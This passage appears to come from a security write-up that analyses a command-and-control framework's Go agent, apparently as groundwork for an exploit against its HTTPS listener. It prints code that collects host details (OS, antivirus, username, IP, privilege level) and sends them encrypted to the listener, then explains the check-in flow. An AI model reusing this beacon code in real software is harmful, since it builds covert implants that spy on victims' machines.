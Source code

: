 ```go
func FirstTime(key string) []byte {
  ...
  systemInfo := initialize{key, runtime.GOOS, osType, osVers, av, hostname, user.Username, ip, agent, shellz, os.Getpid(), admin, elevated, ""}
  msg, err := json.Marshal(systemInfo)
  ...
  return msg
}
```
Essentially we create a structure that holds a message with information about the computer and network, then we return that message. Let's take a look how we send that message to the C2 listener.
```go
//sendMsg takes in an array of bytes and sends it to the listener
func sendMsg(msgType string, data []byte) []byte {

	var aesKey []byte
	var fullMessage []byte
	pub := crypto.BytesToPublicKey(pubKey)
	if key == "" {
		key = "000000000000000000000000000000000000"
	} 
	aesKey = make([]byte, 32)
	_, _ = rand.Read(aesKey)
	named := []byte(key)
	combined := append(named, aesKey...)
	encPub := crypto.EncryptWithPublicKey(combined, pub)
	encMsg := crypto.Encrypt(data, aesKey)
	final := append(encPub, encMsg...)
	fullMessage = final
	r, err := {{DYNAMIC_HTTP_POST_CALL}}
	if err != nil {
		agentfunctions.ErrHandling(err.Error())
	}
	defer r.Body.Close()
	if r.StatusCode == http.StatusOK {
		bodyBytes, err := ioutil.ReadAll(r.Body)
		if err != nil {
			agentfunctions.ErrHandling(err.Error())
		}
		decMsg := crypto.Decrypt(bodyBytes, aesKey)

		return decMsg
	}
	return nil
}
```
This is a function that sends a message to the HTTPS listener. From this function we can tell that:

1. A listener is created. This listens for new agent connections. There are multiple options such as TCP but for this exploit we will focus on HTTPS agents and listeners. When an agent is generated to send to a target. Information such as the listener IP address, port, first time check in URL and public key are placed into the agent.
2. When the agent is run on the target machine. It sends a POST request to the HTTPS listener. The body of the request holds information about the environment the agent is in (defined by the systemInfo structure).
3. This message is encrypted with the listener public key and a random AES key.
4. A response from the listener is received. The response is encrypted using the AES key.
